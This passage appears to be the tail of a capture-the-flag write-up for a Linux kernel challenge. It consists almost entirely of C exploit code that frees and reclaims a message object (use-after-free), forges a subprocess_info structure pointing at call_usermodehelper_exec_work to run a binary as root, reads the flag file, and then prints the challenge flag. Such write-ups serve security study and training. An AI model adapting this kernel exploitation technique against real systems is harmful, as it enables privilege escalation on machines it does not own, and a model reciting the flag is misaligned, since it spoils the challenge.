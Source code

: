 ```c
        UAF and overwrite work
    */
    memset(buf, 0x44, sizeof(buf));

    delete_secmsg(victim_idx);

    puts("[+] freed victim idx 1");

    victim_idx = add_secmsg(buf, 0x100, 5000 - 1);
    printf("[+] re-allocated victim idx %d\n", victim_idx);

    // make sure kthread is sleeping on our thread
    sleep(2);

    delete_secmsg(victim_idx);
    puts("[+] freed victim idx 2");

    memset(buf, 0x45, sizeof(buf));

    heap_leak_1 -= 0x8;

    subprocess_info_t *info = (subprocess_info_t*)buf;
    info->work.data = 0x0000000fffffffe0;
    info->work.func = kaslr_base + 0xcb9b0; // call_usermodehelper_exec_work
    info->work.prev = heap_leak_1 + 0x8;
    info->work.next = heap_leak_1 + 0x8;
    info->path = heap_leak_1 + 0x70;
    info->argv = heap_leak_1 + 0x80;
    info->envp = 0x0;
    info->cleanup = 0x0;
    info->init = 0x0;
    info->data = 0x0;
    info->complete = 0x0;
    info->wait = 0x2; // UMH_WAIT_PROC;

    strcpy(buf + 0x70, "/jail/a");
    *(uint64_t*)(buf + 0x80) = heap_leak_1 + 0x70;
    *(uint64_t*)(buf + 0x88) = 0x0;

    if (write(ss[0], buf, 512 - 0x140) < 0)
        err_exit(1, "[-] write");
    puts("[*] reclaimed victim");

    puts("[+] waiting for cmd to be executed...");
    sleep(5);
    puts("[+] cmd should be done");

    puts("[+] fixing skb alloc");
    memset(buf, 0x0, sizeof(buf));
    add_secmsg(buf, 0x100, 5000 - 1);
    puts("[+] done");

    puts("[+] reading flag");
    system("cat /jail/flag");
    puts("");
    puts("[+] expl done");
    return 0;
}
```

## Flag
`flag{g00d_j0b_1f_y0u_us3d_5ubpr0c3ss_1nf0_t0_byp455_kcf1_s0_3z}`